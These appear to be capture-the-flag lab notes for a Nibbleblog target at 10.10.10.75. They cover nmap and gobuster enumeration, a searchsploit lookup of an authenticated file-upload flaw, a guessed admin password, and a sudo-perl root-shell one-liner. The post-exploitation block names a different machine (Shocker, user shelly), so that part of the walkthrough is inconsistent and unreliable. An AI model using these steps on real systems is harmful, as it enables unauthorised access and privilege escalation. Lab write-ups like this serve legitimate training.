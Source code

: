 ## Nmap Port Scanning
- <mark>Basic Scan</mark>
```bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ nmap -Pn -sV -sC -T4 10.10.10.75 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 10:54 EDT
Nmap scan report for 10.10.10.75
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
```
#### 80/tcp  http  Apache httpd 2.4.18 ((Ubuntu))
- Viewing the Source code of index.html, we can find one interesting comment. ![[Pasted image 20230901105938.png]]
- <mark>Directory Brute-Forcing</mark>
	- Enumerate interesting directories and file under `/nibbleblog`
	```bash
	┌──(saxon㉿Saxon)-[~/Desktop]
	└─$ gobuster dir -u http://10.10.10.75/nibbleblog  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x .php,xml 
	\===============================================================
	Gobuster v3.5
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.10.75/nibbleblog
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.5
	[+] Extensions:              php,xml
	[+] Timeout:                 10s
	===============================================================
	2023/09/01 13:16:02 Starting gobuster in directory enumeration mode
	===============================================================
	/.php                 (Status: 403) [Size: 301]
	/index.php            (Status: 200) [Size: 2987]
	/sitemap.php          (Status: 200) [Size: 402]
	/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
	/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
	/feed.php             (Status: 200) [Size: 302]
	/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
	/admin.php            (Status: 200) [Size: 1401]
	/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
	/install.php          (Status: 200) [Size: 78]
	/update.php           (Status: 200) [Size: 1622]
	/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
	```
	- `admin.php` and `/content` are of particular interest to us. One can find  `/content` has directory listing enabled and, under `/content/private/users.xml`, one can see there is a user called `admin` but password is unknown.<br>![[Pasted image 20230901132330.png]]
- <mark>Exploitation</mark>
	- <mark>Does NOT Work</mark>SQL-injection with URL `http://10.10.10.75/nibbleblog/index.php?controller=blog&action=view&category=uncategorised` !?![[Pasted image 20230901110246.png]]
	- `searchsploit` reveals that `nibbleblog` version 4.0.3 is associated with a `arbitrary file upload` vulnerability but requires valid credentials.
	```bash
	┌──(saxon㉿Saxon)-[~/Desktop]
	└─$ searchsploit nibbleblog
	
	Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)              
	```
	- One can confirm the website is indeed running  `nibbleblog` version 4.0.3 by visiting the URL `http://10.10.10.75/nibbleblog/README`![[Pasted image 20230901125814.png]]
	- We got username `admin` through enumeration but <mark>(!IMPORTANT)</mark> password is `nibbles` but relies on lucky guess and that is the stupid part about this box.
	- Now, we can either use Metasploit module or generate our own payload and upload via admin dashboard. 
- <mark>Post-Exploitation</mark>'
```bash
#misconfigured SUDO permission
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
#run following commands
sudo perl -e 'exec "/bin/sh";'
```